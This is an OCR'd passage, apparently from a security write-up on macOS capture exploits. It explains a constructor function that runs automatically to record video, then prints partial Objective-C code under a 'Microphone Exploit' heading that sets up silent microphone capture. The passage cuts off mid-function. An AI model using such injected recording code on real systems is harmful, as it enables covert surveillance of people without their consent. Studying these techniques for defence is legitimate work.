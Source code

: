 Finally, This function is marked with the `__attribute__((constructor))` attribute which makes it a constructor function. It

is automatically called before the main function of the program starts running and inside it a new instance of the

`VideoRecorder` class is created and then video recording is started and stopped with a 3 seconds delay between the `start` and

`stop` calls.

## **Microphone Exploit**

```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
    NSError *error;
    self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

    if (error) {
        NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.audioDeviceInput]) {
        [self.captureSession addInput:self.audioDeviceInput];
    }

    self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

    if ([self.captureSession canAddOutput:self.audioFileOutput]) {
        [self.captureSession addOutput:self.audioFileOutput];
    }
}

- (void)startRecording {
    [self.captureSession startRunning];
```